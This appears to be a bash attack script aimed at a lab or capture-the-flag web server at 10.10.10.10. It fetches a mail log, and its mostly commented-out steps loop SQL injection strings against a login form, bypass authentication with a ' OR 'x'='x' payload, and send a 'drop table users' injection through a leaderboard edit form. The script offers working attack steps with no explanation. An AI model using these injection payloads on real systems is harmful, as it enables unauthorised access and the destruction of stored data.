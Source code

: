 #!/usr/bin/env bash

target='http://10.10.10.10'

# PAGES

## LOGIN
#curl "$target/login.php" --cookie-jar cookie -O
#curl "$target/script.js" -O
curl "$target/mail.log" -O

### SQL INJECTION TEST
#username='test'
#password='test'
#while IFS='' read inject
#do
#   attempt=$(curl -sL -d "username=$username $inject" -d "password=$password" "$target/functions.php" --cookie-jar login.cookie)
#   size=${#attempt}
#   if [[ $size != 56 ]]
#   then
#       echo $inject
#       curl -sL --cookie login.cookie --cookie-jar login.cookie "$target/dashboard.php" -O
#   fi
#done < injects.txt

## Authenticated
#curl -sL -d "username=$username ' OR 'x'='x'#;" -d "password=$password" "$target/functions.php" --cookie-jar login.cookie

# Check Dashboard
#curl -sL --cookie login.cookie "$target/dashboard.php" -O
#curl -sL --cookie login.cookie "$target/edit_leaderboard.php" -O

## Edit Leaderboard
#curl -sL --cookie login.cookie -d "country=USD" -d "rank=1" -d "gold=100; drop table users #;" "$target/edit_leaderboard.php" -O
